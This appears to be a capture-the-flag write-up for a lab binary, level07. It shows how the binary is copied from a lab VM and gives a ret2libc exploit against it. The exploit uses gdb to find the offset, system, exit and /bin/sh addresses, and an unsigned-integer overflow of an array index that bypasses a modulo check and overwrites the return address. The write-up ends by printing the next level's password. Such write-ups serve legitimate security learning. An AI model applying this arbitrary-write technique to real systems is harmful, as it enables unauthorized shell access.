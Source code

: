 We get the binary out of the Vm using this cmd:

`scp -P 4242 level07@192.168.56.103:./level07 .binary/level07`


use gdb to get offset 
```
    bt - backtrace: show stack functions and args
    info frame - show stack start/end/args/locals pointers
    x/500x $sp - show stack memory
```

We find 456

Since the store_number function let us put data at arbitry position we can change eip to let us launch a shell.

Since the index number we put is *4 we don really care of the check for our index % 3 since we can overflow.

Needed addr and decimal value :
* system   0xf7e6aed0 => 4159090384
* exit     0xf7e5eb70 => 4159040368
* /bin/sh  0xf7f897ec => 4160264172

So we need to store like this
* index => value
* 114 => 4159090384
* 115 => 4159040368
* 116 => 4160264172

since we can't put at 114 (cause 114 % 3 == 0), we need to overflow unsigned int

`(UNSIGNED_INT_MAX + 1)/ 4  + 114`\
`(4294967295 + 1)/ 4 + 114` = `1073741938`

So at index `1073741938` we store `4159090384`\
   at index `115`		 we store `4159040368`\
   at index `116`		 we store `4160264172`\
We can now exit and have a shell :D
```
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```
